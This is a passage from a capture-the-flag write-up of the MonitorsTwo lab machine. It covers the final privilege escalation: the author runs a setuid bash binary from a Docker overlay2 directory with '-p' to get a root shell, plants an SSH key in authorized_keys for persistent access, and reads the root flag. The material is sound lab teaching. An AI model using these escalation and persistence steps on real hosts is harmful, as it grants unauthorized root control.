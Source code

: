 If we explore the second folder, we see that it's the one corresponding to this
host.

Now let's execute the `/bin/bash` binary of the `172.19.0.3` host from
MonitorsTwo without dropping privileges:

```sh
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
```

```
bash-5.1#
```

Yay!

### Stabilizing the shell

Our home folder contains a `.ssh` directory. There's no existing private key, so
I'll create one and add the corresponding public key to `authorized_keys`, and
then I'll connect over SSH to MonitorsTwo. This way, I'll have a much more
stable shell.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@monitorstwo:~# cat "/root/root.txt"
```

```
aee8c2b3fd40b94efc1cebf5c69d5648
```

# Afterwords
